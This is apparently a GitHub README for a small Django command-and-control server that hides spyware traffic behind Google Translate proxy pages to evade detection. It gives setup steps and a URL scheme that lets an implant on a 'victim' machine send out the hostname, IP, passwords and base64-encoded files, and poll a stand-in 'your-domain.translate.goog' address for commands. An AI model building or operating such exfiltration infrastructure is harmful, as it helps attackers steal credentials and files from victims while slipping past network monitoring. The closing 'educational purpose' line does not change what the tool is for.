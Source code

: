 # EFREI-C2-Example
A simple C2 meant to be used behind Google Translate Webpages as a proxy for data evasion.

## Requirements
- Python 3.x
- Django (https://www.djangoproject.com/download/)

## Setup
- Create an admin user: ``python manage.py createsuperuser --username <username>``
- Log on the admin dashboard at ``127.0.0.1:8000/admin``

## Usage
### Exfiltration
- Data are collected directly from the URL
- simply send data to the base URL: ``https://your-domain.translate.goog/<?f>/><hostname>/<ip>/<data_type>/<?hash_file>/<data>/``
  - ``f`` is a flag value to tell the server you are uploading a file.**(OPTIONAL)**.
  - ``hostname`` is your victim hostname.
  - ``ip`` is your victim ip address.
  - ``data_type`` is the keyword you want to filter data. It can be for example a password type.
  - ``hash_file`` is a flag to know if the exfiltrated data is a file or a string. You must send the hash of the file you want to upload to recreate the file. It allows the admin dashboard to know if it has to decode the received data or not. **(REQUIRED IF YOU ARE USING THE /f/ PATH)**
  - ``data`` is the content you want to exfiltrate. If it's a file, it can be encoded in base64 and decoded automatically on the admin dashboard. If it's a base64 data, you must split it into multiple strings otherwise Google Translate will limit you.
You can expand the size of the data by editing ``collector\models.py`` and edit the ``max_length=<your value>`` for the ``data_content`` field.

### Sending command
- Fetch the following link from your client/spyware: ``https://your-domain.translate.goog/c/<hostname>/<ip>/``

# FOR EDUCATIONAL PURPOSE ONLY
